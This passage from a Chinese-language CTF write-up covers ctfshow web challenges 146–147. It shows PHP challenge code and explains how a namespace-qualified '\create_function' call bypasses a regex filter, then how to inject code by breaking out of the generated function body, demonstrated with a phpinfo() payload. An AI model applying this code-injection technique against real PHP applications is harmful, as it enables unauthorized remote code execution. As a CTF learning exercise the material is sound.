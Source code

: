 ```php
        }
    }
}
```

没有对`|`做过滤，payload同web145



## web147

```php
<?php
highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```



![](https://img.npfs06.top/20210307104106.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

很容易就fuzz到了就是`\`这个符号

后来稍微翻了翻别人的writeup，才知道原因，**在PHP的命名空间默认为\，所有的函数和类都在\这个命名空间中，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。**



紧接着就到了如何只控制第二个参数来执行命令的问题了，后来找到可以用`create_function`来完成，`create_function`的第一个参数是参数，第二个参数是内容。

函数结构形似

```
create_function('$a,$b','return 111')

==>

function a($a, $b){
    return 111;
}
```

然后执行，如果我们想要执行任意代码，就首先需要跳出这个函数定义。

```
create_function('$a,$b','return 111;}phpinfo();//')

==>

function a($a, $b){
    return 111;}phpinfo();//
}
```
